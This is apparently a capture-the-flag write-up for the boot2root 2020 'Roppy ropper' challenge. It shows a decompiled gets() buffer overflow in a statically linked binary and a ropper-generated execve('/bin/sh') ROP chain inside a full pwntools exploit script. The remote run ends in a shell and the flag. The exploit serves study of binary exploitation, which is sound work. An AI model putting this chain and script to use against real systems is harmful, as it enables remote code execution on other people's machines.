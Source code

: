 # boot2root 2020

## Roppy ropper

> 467
>
> I love ropes do you?
>
> `nc 35.238.225.156 1004`
>
> Author: TheBadGuy
> 
> [lsass](lsass)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Static ROP binary, parts included, no assembly required.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE or Canary (where is matters, see below); easy easy ROP.


### Decompile with Ghidra

```c
void list_me_like_crazy(void)
{
  char *pcVar1;
  char local_11 [9];
  
  puts("(list_me_like_crazy)");
  puts("Is this lsass I dont understand :)");
  puts("Give me your arguments:");
  gets(local_11);
  pcVar1 = strchr(local_11,0x2f);
  if (pcVar1 == (char *)0x0) {
    run_command(local_11);
  }
  else {
    puts("Hey sorry that is not allowed");
  }
  return;
}
```

When loading up in Ghidra the first thing you'll notice is how long it takes Ghidra to analyze the binary because it is statically linked:

```
lsass: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked,
BuildID[sha1]=29ace8e7875f5edabe4ce83e83ec1aebd4cfa48c, for GNU/Linux 3.2.0, not stripped
```

Like [Welcome to Pwn](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/welcome_to_pwn), `gets` is the vulnerability, but since we have a binary full of gadgets (static linked) using something like `ropper` (hint in title) is all we need:

```
ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
```

The output of that prefixed with `0x11` bytes of garbage is all we need to get a shell (`local_11` is `0x11` bytes from the return address on the stack).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lsass')

if args.REMOTE:
    p = remote('35.238.225.156', 1004)
else:
    p = process(binary.path)

# ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
IMAGE_BASE_0 = 0x08048000 # da2732480d49a078e666802ee2edcd948700eacaaa48129430ea1ff6d5e8e5c6
rebase_0 = lambda x : p32(x + IMAGE_BASE_0)

rop  = b''
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a064)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += p32(0x00000000)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0001c081) # 0x08064081: pop ecx; add al, 0xf6; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004fa95) # 0x08097a95: pop edx; xor eax, eax; pop edi; ret;
rop += rebase_0(0x0009a068)
rop += p32(0xdeadbeef)
rop += rebase_0(0x00001825) # 0x08049825: pop ebp; ret;
rop += p32(0x0000000b)
rop += rebase_0(0x0001aa7e) # 0x08062a7e: xchg eax, ebp; ret;
rop += rebase_0(0x000319a0) # 0x080799a0: int 0x80; ret;

payload  = 0x11 * b'A'
payload += rop

p.sendlineafter('arguments:\n',payload)
p.interactive()
```

As stated in the Analysis section, `0x11` bytes, then ROPchain from `ropper`.

> The above is not 100% `ropper` output, I changed `p` to `p32`, added `b` to strings because I use `python3`, etc... nothing difficult to understand.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
